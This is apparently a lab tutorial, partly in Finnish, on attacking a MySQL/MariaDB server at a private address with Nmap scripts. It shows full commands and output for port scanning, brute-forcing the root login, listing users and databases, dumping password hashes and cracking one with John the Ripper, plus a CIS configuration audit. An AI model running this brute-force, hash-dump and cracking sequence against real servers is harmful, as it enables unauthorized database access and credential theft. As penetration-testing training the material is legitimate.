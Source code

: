Listing MySQL databases 
===

MySQL is an open Source for Relational Database Management System that uses structured query language for generating database record.  

Let’s Begin !!!

# Scanning for port 3306

 open the terminal and type following command to check MySQL service is activated on the targeted system or not, basically MySQL service is activated on default port 3306.


```
nmap -sT 192.168.1.216
```
# Retrieve MySQL information

Now type another command to retrieve MySQL information such as version, protocol and etc:

```
nmap --script=mysql-info 192.168.1.216
```
### Example....

```
nmap --script=mysql-info 192.168.10.170
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:13 EET
Nmap scan report for 192.168.10.170
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.4-MariaDB-1~deb12u1
|   Thread ID: 145323
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolNew, SupportsTransactions, Speaks41ProtocolOld, InteractiveClient, Support41Auth, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, LongColumnFlag, SupportsCompression, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: VIM'xLO)}\7:]F(4j:":
|_  Auth Plugin Name: mysql_native_password
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 3.29 seconds
```
Above command try to connect to with MySQL server and hence prints information such as the protocol: 10, version numbers: 5.5.5-10.11.4-MariaDB-1~deb12u1, thread ID: 145323, status: auto-commit, capabilities, and the password salt as shown in given image.

## Brute force attack

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-brute 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:33 EET
Nmap scan report for 192.168.10.170
Host is up (0.24s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 232 seconds, average tps: 196.6

Nmap done: 1 IP address (1 host up) scanned in 233.17 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap --script=mysql-brute 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:38 EET
Nmap scan report for 192.168.10.170
Host is up (0.0092s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 260 seconds, average tps: 176.7
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 263.01 seconds

## Finding root accounts with an empty password in MySQL servers
                                                                                                                            
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-empty-password 192.168.10.170 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:56 EET
Nmap scan report for 192.168.10.170
Host is up (0.0086s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

## Listing MySQL users

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-users --script-args mysqluser=root,mysqlpass=root 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 09:58 EET
Nmap scan report for 192.168.10.170
Host is up (0.0046s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-users: 
|   21Oppilas
|   root
|   mariadb.sys
|   mysql
|_  wpuser

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds

```

# Detecting insecure configurations in MySQL servers

Insecure configurations in databases could be abused by attackers. The Center for Internet Security (CIS) publishes a security benchmark for MySQL, and Nmap can use this benchmark as a base to audit the security configurations of MySQL servers. For more information can be found here: https://www.mysql.com/products/enterprise/cisbenchmark.html

Täältä voi katsoa mysql-cis.audit filen ohjeet:  https://svn.nmap.org/nmap/scripts/mysql-audit.nse


## How to do it...

To detect insecure configurations in MySQL servers, enter the following command:
```
nmap -p 3306 --script mysql-audit --script-args "mysql- audit.username='root', \
-- mysql-audit.password='root',mysql- audit.filename='nselib/data/mysql-cis.audit'"
```

## Retrieve database names

This command will fetch MySQL database name which helps of given argument mysqluser root and mysqlpass root.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-databases --script-args mysqluser=root,mysqlpass=root  

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:21 EET
Nmap scan report for 192.168.10.170
Host is up (0.12s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-databases: 
|   10Oppilas
|   11Oppilas
|   12Oppilas
|   13Oppilas
|   14Oppilas
|   15Oppilas
|   16Oppilas
|   17Oppilas
|   18Oppilas
|   19Oppilas
|   1Oppilas
|   20Oppilas
|   21Oppilas
|   22Oppilas
|   23Oppilas
|   24Oppilas
|   25Oppilas
|   26Oppilas
|   27Oppilas
|   28Oppilas
|   2Oppilas
|   30Oppilas
|   3Oppilas
|   4Oppilas
|   5Oppilas
|   6Oppilas
|   7Oppilas
|   8Oppilas
|   9Oppilas
|   DigiOs
|   Maila
|   SuperP
|   Vuokatti
|   employee
|   information_schema
|   mikandb
|   mydb
|   mysql
|   news
|   performance_schema
|   saaAsema
|   sys
|   testinews
|_  wpdb

Nmap done: 1 IP address (1 host up) scanned in 1.04 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## Retrieve Hash Dump

This command will Dumps the password hashes from a MySQL server in a format suitable for cracking by tools such as John the Ripper.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-dump-hashes --script-args username=root,password=root

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:24 EET
Nmap scan report for 192.168.10.170
Host is up (0.011s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-dump-hashes: 
|   root:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   mysql:invalid
|   wpuser:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
|_  21Oppilas:*C5B1A33B622B93204CBE66EA5D17342D0F2397CF

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## John the Ripper

```
--Luodaan tiedosto, johon hash salasana kopioidaan

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ touch hashes.txt   
                                                                                           -- Avataan tiedosto   ja kopioidaan kryptattu salasana                                                
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nano hashes.txt   
                                                                                           -- Ja john tulille

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ john hashes.txt                               

Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 ASIMD 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
root             (?)     
1g 0:00:00:01 DONE 3/3 (2023-12-13 11:36) 0.9708g/s 5464Kp/s 5464Kc/s 5464KC/s roob..rooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

More details: https://vk9-sec.com/cracking-password-john-the-ripper/
```



